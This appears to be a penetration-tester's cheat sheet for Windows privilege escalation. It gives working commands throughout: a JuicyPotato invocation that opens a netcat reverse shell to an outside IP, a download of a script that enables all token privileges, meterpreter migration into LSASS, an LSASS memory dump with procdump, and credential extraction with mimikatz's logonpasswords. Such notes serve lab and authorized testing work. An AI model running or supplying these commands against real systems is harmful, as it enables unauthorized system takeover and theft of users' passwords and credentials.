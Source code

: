 - Run command:
```sh
c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 8443 -e cmd.exe" -t *
```

https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/roguepotato-and-printspoofer
#### SeDebugPrivilege
#SeDebugPrivilege #Enable_Privilege

**Enable privileges **

- Download script : 
```sh
wget https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1
```

- Enable all privileges : 
```powershell
 Import-Module .\EnableAllTokenPrivs.ps1
.\EnableAllTokenPrivs.ps1
whoami /priv
```

- Resources :
https://www.leeholmes.com/blog/2010/09/24/adjusting-token-privileges-in-powershell/
https://medium.com/@markmotig/enable-all-token-privileges-a7d21b1a4a77

**Migrate Process**

- Get LSASS process id: 
```sh
ps 
```

- Migrate the process with the meterpreter :
```sh
migrate <pid>
```

**Dump LSASS:**

- Download procdump.exe:
```sh
wget https://download.sysinternals.com/files/Procdump.zip
```

- Run procdump:
```cmd
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

- Download Mimikatz:
```sh
wget https://github.com/ParrotSec/mimikatz/tree/master/x64
```

- Use Mimikatz:
```cmd
mimikatz.exe
mimikatz # log
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonpasswords
```
